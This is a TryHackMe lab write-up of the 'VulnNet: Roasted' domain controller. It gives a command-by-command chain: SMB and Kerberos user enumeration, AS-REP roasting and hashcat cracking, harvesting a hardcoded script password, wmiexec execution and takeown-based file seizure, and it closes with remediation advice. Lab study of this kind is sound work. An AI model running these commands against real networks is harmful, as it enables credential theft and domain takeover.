



# VulnNet: Roasted — TryHackMe Writeup

**Platform:** TryHackMe | **Difficulty:** Easy | **Target IP:** 10.67.132.68 | **Attacker IP:** 192.168.146.25

## Machine info



## Summary

**VulnNet: Roasted** is a domain controller that leaks far more than it should to unauthenticated and low-privileged users. An nmap scan exposed a full Active Directory environment for vulnnet-rst.local, and a null-session RID cycling pass against SMB enumerated the complete list of domain accounts without any credentials. One of those accounts, t-skid, had Kerberos pre-authentication disabled, so a targeted AS-REP roast produced a crackable hash that resolved to a weak password. Authenticating as t-skid and browsing the NETLOGON share turned up a leftover administrative script that still carried a hardcoded password for a-whitehat, an account that turned out to belong to Domain Admins. Those credentials granted command execution over WMI, and even though the account was nominally an administrator, reading the flag on the Administrator's desktop was initially denied until one of a-whitehat's enabled rights, SeTakeOwnershipPrivilege, was used to seize the file and grant explicit access, revealing it.

**Attack chain:** Nmap recon → SMB null-session RID cycling (username discovery) → AS-REP Roasting (t-skid) → Hashcat cracking → NETLOGON script credential leak (a-whitehat) → WMIExec RCE → SeTakeOwnershipPrivilege → Root

## 1. Reconnaissance

An initial nmap scan against the target identified a Windows domain controller for vulnnet-rst.local, exposing the classic Active Directory port set.

```
nmap -sS -sV -sC -vvv -oN scan.txt 10.67.132.68
Nmap scan report for 10.67.132.68
Host is up, received echo-reply ttl 126 (0.051s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE       REASON          VERSION
53/tcp   open  domain        syn-ack ttl 126 Simple DNS Plus
88/tcp   open  kerberos-sec  syn-ack ttl 126 Microsoft Windows Kerberos (server time: 2026-10-21 23:57:08Z)
135/tcp  open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 126 Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: vulnnet-rst.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds? syn-ack ttl 126
464/tcp  open  kpasswd5?     syn-ack ttl 126
593/tcp  open  ncacn_http    syn-ack ttl 126 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped    syn-ack ttl 126
3268/tcp open  ldap          syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: vulnnet-rst.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped    syn-ack ttl 126
5985/tcp open  http          syn-ack ttl 126 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: WIN-2BO8M1OE1M1; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-10-21T23:57:14
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
|_clock-skew: 0s
```

## 2. SMB Enumeration & Username Discovery

Listing SMB shares without credentials revealed two custom shares open to anonymous access alongside the standard domain shares.

```
smbclient -L //10.67.132.68/ -N

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
        VulnNet-Business-Anonymous Disk      VulnNet Business Sharing
        VulnNet-Enterprise-Anonymous Disk      VulnNet Enterprise Sharing
```

`kerbrute`'s username enumeration against a large generic wordlist validated two accounts directly over Kerberos:

```
kerbrute userenum -d vulnnet-rst.local --dc 10.67.132.68 xato-net-10-million-usernames.txt

2026/10/21 20:03:16 >  [+] VALID USERNAME:       guest@vulnnet-rst.local
2026/10/21 20:03:22 >  [+] VALID USERNAME:       administrator@vulnnet-rst.local
```

A null-session RID cycling pass (`nxc smb --rid-brute`) then enumerated 29 domain SIDs. Trimming the default built-in groups down to what mattered, it surfaced several named accounts:

```
nxc smb 10.67.132.68 -u 'guest' -p '' --rid-brute
SMB         10.67.132.68    445    WIN-2BO8M1OE1M1  [+] vulnnet-rst.local\guest: 
SMB         10.67.132.68    445    WIN-2BO8M1OE1M1  500: VULNNET-RST\Administrator (SidTypeUser)
SMB         10.67.132.68    445    WIN-2BO8M1OE1M1  501: VULNNET-RST\Guest (SidTypeUser)
SMB         10.67.132.68    445    WIN-2BO8M1OE1M1  502: VULNNET-RST\krbtgt (SidTypeUser)
...
SMB         10.67.132.68    445    WIN-2BO8M1OE1M1  1000: VULNNET-RST\WIN-2BO8M1OE1M1$ (SidTypeUser)
SMB         10.67.132.68    445    WIN-2BO8M1OE1M1  1101: VULNNET-RST\DnsAdmins (SidTypeAlias)
SMB         10.67.132.68    445    WIN-2BO8M1OE1M1  1102: VULNNET-RST\DnsUpdateProxy (SidTypeGroup)
SMB         10.67.132.68    445    WIN-2BO8M1OE1M1  1104: VULNNET-RST\enterprise-core-vn (SidTypeUser)
SMB         10.67.132.68    445    WIN-2BO8M1OE1M1  1105: VULNNET-RST\a-whitehat (SidTypeUser)
SMB         10.67.132.68    445    WIN-2BO8M1OE1M1  1109: VULNNET-RST\t-skid (SidTypeUser)
SMB         10.67.132.68    445    WIN-2BO8M1OE1M1  1110: VULNNET-RST\j-goldenhand (SidTypeUser)
SMB         10.67.132.68    445    WIN-2BO8M1OE1M1  1111: VULNNET-RST\j-leet (SidTypeUser)
```

Five named accounts stood out beyond the built-ins: `enterprise-core-vn`, `a-whitehat`, `t-skid`, `j-goldenhand` and `j-leet`. Combined with `guest` and `administrator` confirmed earlier, these formed the userlist for the next step.

## 3. AS-REP Roasting — Cracking t-skid's Hash

A userlist was built from the enumerated accounts, and Impacket's `GetNPUsers` was run against the domain without credentials to check for accounts with Kerberos pre-authentication disabled.

```
impacket-GetNPUsers vulnnet-rst.local/ -usersfile users.txt -no-pass -dc-ip 10.67.132.68 -format hashcat -outputfile hash.txt
[-] User a-whitehat doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$t-skid@VULNNET-RST.LOCAL:d95c4b1c1b458794b2191ba9e0f5fd34$20b72a95f8571109d7fb018e01bbcd2ff7b62fa187388b6fb5037c50ee39df52c36c79c9bd594dd7ab2aba18b3d2e576a1212edf54979e033737cc726ace5cefdc594271104a14204e37acf4c317c06500a782333e101c646b861e230c990634670ea611a979851d206b1ce65f674e9ac397a5a84dc95e49264eceff26af983878b95e2bb05eed013087d86c17273d3d078627d8cb5002423856f0bea5f197dcc76ff95be5a0540dd368e83ff56057d376399a76b0d03cf5f321919f5a67adecdce4d9a68d01cadfc67d8e735a449f9e28e2b1a17ad490aeea00193adcbc67f840d1396b139faf17b09040a0dc5cf2c1acd6221c7846
[-] User j-goldenhand doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User j-leet doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User enterprise-core-vn doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User guest doesn't have UF_DONT_REQUIRE_PREAUTH set
```

`t-skid` was the only account without pre-authentication required. Hashcat's built-in identifier confirmed the hash format before attempting to crack it:

```
hashcat --identify hash.txt
The following hash-mode match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+======================================
  18200 | Kerberos 5, etype 23, AS-REP                               | Network Protocol
```

It was then cracked against rockyou.txt:

```
hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt
$krb5asrep$23$t-skid@VULNNET-RST.LOCAL:d95c4b1c1b458794b2191ba9e0f5fd34$20b72a95f8571109d7fb018e01bbcd2ff7b62fa187388b6fb5037c50ee39df52c36c79c9bd594dd7ab2aba18b3d2e576a1212edf54979e033737cc726ace5cefdc594271104a14204e37acf4c317c06500a782333e101c646b861e230c990634670ea611a979851d206b1ce65f674e9ac397a5a84dc95e49264eceff26af983878b95e2bb05eed013087d86c17273d3d078627d8cb5002423856f0bea5f197dcc76ff95be5a0540dd368e83ff56057d376399a76b0d03cf5f321919f5a67adecdce4d9a68d01cadfc67d8e735a449f9e28e2b1a17ad490aeea00193adcbc67f840d1396b139faf17b09040a0dc5cf2c1acd6221c7846:tj072889*
Status...........: Cracked
```

## 4. Credential Reuse & NETLOGON Script Disclosure

The recovered password was validated directly against SMB:

```
nxc smb 10.67.132.68 -u 't-skid' -p 'tj072889*'
SMB         10.67.132.68    445    WIN-2BO8M1OE1M1  [+] vulnnet-rst.local\t-skid:tj072889*
```

Shares enumeration with these credentials returned the same set already seen anonymously:

```
nxc smb 10.67.132.68 -u 't-skid' -p 'tj072889*' --shares
SMB         10.67.132.68    445    WIN-2BO8M1OE1M1  [+] vulnnet-rst.local\t-skid:tj072889* 
SMB         10.67.132.68    445    WIN-2BO8M1OE1M1  [*] Enumerated shares
SMB         10.67.132.68    445    WIN-2BO8M1OE1M1  Share           Permissions     Remark
SMB         10.67.132.68    445    WIN-2BO8M1OE1M1  -----           -----------     ------
SMB         10.67.132.68    445    WIN-2BO8M1OE1M1  ADMIN$                          Remote Admin
SMB         10.67.132.68    445    WIN-2BO8M1OE1M1  C$                              Default share
SMB         10.67.132.68    445    WIN-2BO8M1OE1M1  IPC$            READ            Remote IPC
SMB         10.67.132.68    445    WIN-2BO8M1OE1M1  NETLOGON        READ            Logon server share 
SMB         10.67.132.68    445    WIN-2BO8M1OE1M1  SYSVOL          READ            Logon server share 
SMB         10.67.132.68    445    WIN-2BO8M1OE1M1  VulnNet-Business-Anonymous READ            VulnNet Business Sharing
SMB         10.67.132.68    445    WIN-2BO8M1OE1M1  VulnNet-Enterprise-Anonymous READ            VulnNet Enterprise Sharing
```

Attention then moved to `NETLOGON`, this time authenticated as `t-skid`:

```
smbclient //10.67.132.68/NETLOGON -U 't-skid'
smb: \> ls
  .                                   D        0  Tue Mar 16 19:15:49 2021
  ..                                  D        0  Tue Mar 16 19:15:49 2021
  ResetPassword.vbs                   A     2821  Tue Mar 16 19:18:14 2021
```

The script contained mostly boilerplate LDAP username-translation logic, but two lines hardcoded a password reset for another account:

```
strUserNTName = "a-whitehat"
strPassword = "bNdKVkjv3RR9ht"
```

## 5. Remote Code Execution via WMIExec — User Flag

With `a-whitehat`'s credentials in hand, Impacket's `wmiexec` provided an interactive semi-shell over DCOM/WMI:

```
impacket-wmiexec vulnnet-rst.local/a-whitehat:'bNdKVkjv3RR9ht'@10.67.132.68
[*] SMBv3.0 dialect used
C:\>whoami
vulnnet-rst\a-whitehat
```

Checking the other local profiles under `C:\Users` turned up a user flag under the `enterprise-core-vn` account's Desktop:



## 6. Privilege Escalation — SeTakeOwnershipPrivilege to Root

`a-whitehat`'s enabled privileges included several high-impact rights, among them `SeBackupPrivilege`, `SeRestorePrivilege`, `SeTakeOwnershipPrivilege` and `SeDebugPrivilege`:

```
C:\>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State  
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeMachineAccountPrivilege                 Add workstations to domain                                         Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeEnableDelegationPrivilege               Enable computer and user accounts to be trusted for delegation     Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled
```

Group membership explained why: `a-whitehat` was already a member of `Domain Admins` and the local `Administrators` group.

```
C:\>whoami /groups

GROUP INFORMATION
-----------------

Group Name                                         Type             SID                                          Attributes                                                     
================================================== ================ ============================================ ===============================================================
Everyone                                           Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group             
BUILTIN\Users                                      Alias            S-1-5-32-545                                 Mandatory group, Enabled by default, Enabled group             
BUILTIN\Pre-Windows 2000 Compatible Access         Alias            S-1-5-32-554                                 Mandatory group, Enabled by default, Enabled group             
BUILTIN\Administrators                             Alias            S-1-5-32-544                                 Mandatory group, Enabled by default, Enabled group, Group owner
NT AUTHORITY\NETWORK                               Well-known group S-1-5-2                                      Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\Authenticated Users                   Well-known group S-1-5-11                                     Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\This Organization                     Well-known group S-1-5-15                                     Mandatory group, Enabled by default, Enabled group             
VULNNET-RST\Domain Admins                          Group            S-1-5-21-1589833671-435344116-4136949213-512 Mandatory group, Enabled by default, Enabled group             
VULNNET-RST\Denied RODC Password Replication Group Alias            S-1-5-21-1589833671-435344116-4136949213-572 Mandatory group, Enabled by default, Enabled group, Local Group
NT AUTHORITY\NTLM Authentication                   Well-known group S-1-5-64-10                                  Mandatory group, Enabled by default, Enabled group             
Mandatory Label\High Mandatory Level               Label            S-1-16-12288
```

Despite that membership, reading the Administrator's root flag over the WMI session was denied:

```
C:\Users\Administrator\Desktop>type system.txt
Access is denied.
```

The file's ACL evidently excluded `a-whitehat` despite that group membership, so the enabled `SeTakeOwnershipPrivilege` was used to seize the file and grant explicit access instead:

```
C:\Users\Administrator\Desktop>takeown /f C:\Users\Administrator\Desktop\system.txt

SUCCESS: The file (or folder): "C:\Users\Administrator\Desktop\system.txt" now owned by user "VULNNET-RST\a-whitehat".

C:\Users\Administrator\Desktop>icacls C:\Users\Administrator\Desktop\system.txt /grant a-whitehat:F
processed file: C:\Users\Administrator\Desktop\system.txt
Successfully processed 1 files; Failed processing 0 files
```



## Root Cause & Remediation

| Issue | Fix |
|---|---|
| Null/anonymous SMB sessions allowed share listing and RID-based username enumeration without any credentials. | Restrict anonymous enumeration (`RestrictAnonymous`/`RestrictAnonymousSAM`) and remove unnecessary anonymously-readable shares. |
| `t-skid` had Kerberos pre-authentication disabled, exposing an AS-REP hash crackable with a weak password (`tj072889*`). | Enable pre-authentication for all accounts, enforce a strong password policy, and monitor for roastable accounts. |
| `ResetPassword.vbs` in `NETLOGON` stored `a-whitehat`'s password in plaintext, readable by any authenticated domain user. | Remove hardcoded credentials from logon scripts; rotate the exposed password and use a managed credential store (LAPS/gMSA). |
| `a-whitehat`, whose password is reset by an automated script, was a member of `Domain Admins` and `Administrators`. | Apply least privilege: an account whose credentials are managed by automation shouldn't hold Domain Admin membership; use a dedicated low-privilege account for scripted resets instead. |
